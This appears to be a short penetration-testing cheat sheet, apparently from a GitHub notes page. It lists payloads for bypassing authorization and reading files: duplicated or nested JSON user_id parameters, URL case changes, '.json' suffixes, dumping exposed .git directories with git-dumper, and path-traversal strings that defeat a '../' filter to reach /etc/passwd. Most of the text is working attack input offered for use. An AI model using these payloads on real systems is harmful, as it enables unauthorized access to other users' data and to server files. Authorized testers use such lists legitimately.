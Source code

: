 #### Json Parameter Pollution

```
POST /api/v1/messages
{"user_id":<You_user_id>,"user_id":<Anoher_User_id>} 
```

- With a JSON Object

```
POST /api/v1/messages
{"user_id":{"user_id":<Anoher_User_id>}} 
```

- With array  

```
{"user_id":001} #Unauthorized
{"user_id":[001]} #Authorized
```

#### Random Case

GET /admin/profile #Unauthorized
GET /ADMIN/profile #Authorized

#### UUIDv1

https://caon.io/docs/exploitation/other/uuid/
https://github.com/felipecaon/uuidv1gen

#### Others

- Add .json if in ruby
```
/user/1029 # Unauthorized
/user/1029.json # Authorized
```

### Git Exposed

```
git-dumper http://site.com/.git .
```
https://github.com/arthaud/git-dumper

#### Git Tools

https://github.com/internetwache/GitTools

### Local File Inclusion - LFI

#### Replace ../ - Bypass

$language = str_replace('../', '', $_GET['file']);  

```
/....//....//....//....//etc/passwd  
..././..././..././..././etc/paswd  
....\/....\/....\/....\/etc/passwd 
```
